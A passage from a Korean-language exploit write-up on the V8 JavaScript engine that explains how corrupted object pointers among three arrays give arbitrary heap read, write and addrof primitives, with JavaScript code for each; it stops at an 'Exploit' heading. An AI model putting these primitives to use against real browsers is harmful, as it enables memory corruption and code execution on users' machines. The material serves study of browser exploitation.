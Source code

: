 이제 이 세 객체들이 어떻게 동작하게 되는지 간단하게 설명해 보겠습니다.

changer 객체의 elements 포인터를 leaker객체의 주소로 바꾸었기 때문에, changer의 elements 배열을 확인하러 가면, leaker객체로 가게됩니다. 따라서 changer[0]의 값은 1.1이 아닌, leaker객체의 holder_addr + size 값에 해당합니다.
마찬가지로, leaker[0]은 1.1이 아닌, holder객체의 elements + in-object property 1 값을 가르킵니다.

#### Final Heap Read/Write Primitive

이 primitive는 처음에 만들었던 primitive와 같은 방식의 primitive인데, 이전에 Garbage collection을 대비하여 만든 객체들로 구현한 것입니다.

그래서 v8h_read64 함수는 changer의 0번 인덱스, 즉 leaker의 elements를 원하는 곳으로 바꾼 후, 그곳의 데이터를 읽어 들입니다.

v8h_write 함수는 read함수에서 해당 위치의 데이터를 쓰는 기능이 추가된 primitive입니다.

```jsx
function v8h_read64(addr) {
        original_leaker_bytes = changer[0];
        u32[0] = Number(addr)-8;
        u32[1] = 0xc;
        changer[0] = f64[0];

        let ret = leaker[0];
        changer[0] = original_leaker_bytes;
        return f2i(ret);
}

function v8h_write(addr, value) {
        original_leaker_bytes = changer[0];
        u32[0] = Number(addr)-8;
        u32[1] = 0xc;
        changer[0] = f64[0];

        f64[0] = leaker[0];
        u32[0] = Number(value);
        leaker[0] = f64[0];
        changer[0] = original_leaker_bytes;
}
```

#### Final addrof Primitive

이 primitive는 이전의 addrof와 마찬가지로 객체의 주소를 얻기 위해 사용합니다.
이전의 primitive는 x배열을 a배열을 덮음으로써 type confusion을 일으켜 주소를 얻었습니다.
지금은 이 배열들을 모두 초기화하고 더이상 사용하지 않게(gc가 오류를 발견하지 못하게) 하여, 새로 생성하여 사용중인 changer,leaker,holder를 이용해서 addrof primitive를 구현하려 합니다.

```jsx
function addrof(obj) {
        holder.p2 = obj;
        let ret = leaker[1];
        holder.p2 = 0;
        return f2i(ret) & 0xffffffffn;
}
```

### Exploit
